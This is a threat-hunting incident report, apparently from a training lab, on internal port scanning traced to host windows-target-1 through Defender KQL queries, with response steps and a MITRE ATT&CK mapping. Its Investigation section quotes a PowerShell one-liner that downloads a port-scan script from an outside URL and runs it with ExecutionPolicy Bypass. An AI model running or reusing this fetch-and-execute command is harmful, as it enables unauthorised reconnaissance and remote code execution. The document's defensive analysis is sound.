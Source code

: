 

# Sudden Network Slowdowns Project 
## 🛡️ Incident Report: Internal Port Scanning Activity on 10.0.0.0/16 Network

# Objective:
To investigate abnormal traffic patterns originating from within the network, identify any signs of lateral movement or misuse of built-in tools (e.g., PowerShell), and validate whether an internal host is responsible for the performance degradation.

---
# Tools & Technology:
- Azure Virtual Machine
- PowerShell 
- Microsoft Defender
- KQL Query

---
# Table of contents

- [1. Summary](#1-summary)
- [2. Preparation](#2-preparation)
- [3. Data Collection](#3-data-collection)
- [4. Data Analysis](#4-data-analysis)
- [5. Investigation](#5-investigation)
- [6. Response](#6-response)
- [7. MITRE ATT&CK Mapping](#7-mitre-attck-mapping)
- [8. Lessons Learned / Improvement:](#8-lessons-learned--improvement)
- [9. Final Status](#9-final-status)
---



## 1. Summary
Incident Title: Unauthorized Internal Port Scanning via PowerShell <br />
Date of Discovery: June 10, 2025 <br />
Reporting Team: Security Operations / Threat Hunting <br />
Impacted Network Segment: 10.0.0.0/16 <br />
Affected Host: windows-target-1 (10.0.0.5) <br />
TTPs Observed: T1046, T1059.001, T1078, T1105, T1204.002 <br />
Incident Status: Contained; Rebuilt/ Re-imaging  <br />

## 2. Preparation
### Observation:
The server team reported network performance degradation affecting older devices on the 10.0.0.0/16 internal network.

### Initial Assumption:
After ruling out external threats (e.g., DDoS), internal causes such as large file transfers or port scanning were considered. The environment allows unrestricted internal traffic and the use of scripting tools like PowerShell.

### Hypothesis:
A compromised internal host may be engaging in lateral movement or reconnaissance via port scanning.

## 3. Data Collection
### Data Sources Queried:
#### DeviceNetworkEvents
  ![DataCollection1](https://github.com/user-attachments/assets/74d73fd3-8472-4d27-a1cc-59aafc29736d)

#### DeviceProcessEvents
  ![DataCollection2](https://github.com/user-attachments/assets/b8cacdcc-dac6-4469-856d-d19205730b9e)

#### DeviceFileEvents 
![DataCollection3](https://github.com/user-attachments/assets/f53e8661-60e6-45a2-97f1-409192e3a672)



## 4. Data Analysis

### Focus Areas:

- Failed network connections (potential scanning) 
- Suspicious process executions
- File downloads or script execution activity
  
### Step 1:
Analyzed DeviceNetworkEvents for failed outbound connection attempts.

```kql
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP, RemoteIP
| order by ConnectionCount

```

![DataCollection4](https://github.com/user-attachments/assets/d067d36d-1ea9-4c6f-8933-97b668d4e367)


Result: IP 10.0.0.5 exhibited an unusually high number of failed connections.

### Step 2:
Filtered for all failed connection timestamps for IP 10.0.0.5:

```kql
let IPInQuestion = "10.0.0.5";
DeviceNetworkEvents
| where ActionType == "ConnectionFailed"
| where LocalIP == IPInQuestion
| order by Timestamp desc
```
![DataCollection5](https://github.com/user-attachments/assets/55159acf-f97d-47e9-b5f4-d60283a8ec1c)



Finding:
Connections were attempted to multiple ports in sequential order—indicating an automated port scan.

## 5. Investigation

Pivoted to DeviceProcessEvents for host windows-target-1 and timestamp near suspicious activity:

```kql
let VMName = "windows-target-1";
let specificTime = datetime(2025-06-10T08:41:10.2458249Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 10m) .. (specificTime + 10m))
| where DeviceName == VMName
| where InitiatingProcessCommandLine contains "portscan"
| order by Timestamp desc
| project Timestamp, FileName, InitiatingProcessCommandLine, AccountName

```
![DeviceProcessEvents](https://github.com/user-attachments/assets/42402a97-5812-4ae5-9230-e88689618cbc)

Account:
Executed by SYSTEM — not expected behavior; not triggered by any admin.

Key Finding:
A PowerShell command was executed at 2025-06-10T08:37:51Z with the following line:

```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1' -OutFile 'C:\programdata\portscan.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1

```

I logged into the suspect computer and observed the powershell script that was used to conduct the port scan:

![portscan](https://github.com/user-attachments/assets/ba71f03c-5e53-4fab-bf31-743708f8d6d2)


## 6. Response
### Actions Taken:

- Logged into the device to verify script existence. 
- Confirmed the file portscan.ps1 existed under C:\ProgramData. 
- Isolated the host from the network. 
- Performed a full malware scan (no malware detected). 
- Escalated to IT for reimaging of the device to ensure integrity. 

## 7. MITRE ATT&CK Mapping

- T1046 - Network Service Discovery  
  (Port scanning activity to identify open services)

- T1059.001 - Command and Scripting Interpreter: PowerShell  
  (Execution of PowerShell script to perform scan)

- T1078 - Valid Accounts  
  (Script executed under SYSTEM account)

- T1105 - Ingress Tool Transfer  
  (Script downloaded from external URL using Invoke-WebRequest)

- T1204.002 - User Execution: Malicious File  
  (Execution of suspicious PowerShell file)

- T1562.001 - Impair Defenses (if applicable)  
  (Not confirmed, but would apply if local defenses were bypassed or modified)

## 8. Lessons Learned / Improvement: 

Review PowerShell execution policies and endpoint monitoring rules

## 9. Final Status

Threat Contained: ✅

Device Isolated: ✅

Malware Scan Result: Clean

Device Action: Ticket submitted for full rebuild





